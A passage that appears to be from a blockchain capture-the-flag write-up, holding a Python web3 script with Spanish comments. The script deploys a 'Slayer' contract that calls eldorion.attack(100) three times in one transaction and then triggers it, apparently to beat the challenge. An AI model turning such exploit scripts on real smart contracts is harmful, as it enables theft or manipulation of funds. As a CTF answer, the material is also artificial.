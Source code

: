 ```python
    }

    function slay() external {
        eldorion.attack(100);
        eldorion.attack(100);
        eldorion.attack(100);
    }
}
'''

# Compilar
compiled = compile_source(source_code)
contract_interface = compiled['<stdin>:Slayer']

Slayer = w3.eth.contract(abi=contract_interface['abi'], bytecode=contract_interface['bin'])

# Deploy
tx = Slayer.constructor(eldorion_address).build_transaction({
    'from': account.address,
    'nonce': w3.eth.get_transaction_count(account.address),
    'gas': 300000,
    'gasPrice': w3.to_wei('1', 'gwei'),
})
signed_tx = w3.eth.account.sign_transaction(tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
print(f"[+] Slayer desplegado en {tx_receipt.contractAddress}")

# Ejecutar slay()
slayer = w3.eth.contract(address=tx_receipt.contractAddress, abi=contract_interface['abi'])
tx2 = slayer.functions.slay().build_transaction({
    'from': account.address,
    'nonce': w3.eth.get_transaction_count(account.address),
    'gas': 300000,
    'gasPrice': w3.to_wei('1', 'gwei'),
})
signed_tx2 = w3.eth.account.sign_transaction(tx2, private_key)
tx_hash2 = w3.eth.send_raw_transaction(signed_tx2.raw_transaction)
tx_receipt2 = w3.eth.wait_for_transaction_receipt(tx_hash2)
print("[+] slay() ejecutado con éxito!")
```

---